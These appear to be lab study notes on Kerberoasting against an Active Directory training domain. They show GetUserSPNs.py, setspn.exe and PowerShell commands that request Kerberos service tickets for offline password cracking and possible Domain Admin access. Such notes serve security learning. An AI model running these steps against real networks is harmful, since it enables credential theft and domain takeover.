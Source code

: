 `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user`
        
With this ticket in hand, we could attempt, to crack the password offline, if successful we may end up with Domain Admin Rights.
        
Saving the Ticket o facilitate offline cracking, it is always good to use the `-outputfile` flag to write the TGS tickets to a file that can then be run using Hashcat on our attack system or moved to a GPU cracking rig.
        
`GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs`
        
### Windows Perspective
        
Kerberoasting - Semi-Manual Method.
        
#### Enumerating SPNs with setspn.exe
        
`setspn.exe -Q */*` running the command you’ll notice many different SPNs returned for the various hosts in the domain.
        
#### Retrieving All Tickets using setspn.exe
        
`setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`
        
The above command combines the previous command with `setspn.exe` to request tickets for all accounts with SPNs set.
        
Using ******************Powershell****************** we can request TGS tickets for an account in the shell and load them into memory, once they are loaded into memory we can extract them using **Mimkatz.**
        
#### Targeting a Single User**************
        
```powershell
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
        
Before moving on, let's break down the commands above to see what we are doing (which is essentially what is used by [Rubeus](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1) when using the default Kerberoasting method):
        
- The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
- The `AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
- [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
- We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
- We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session
        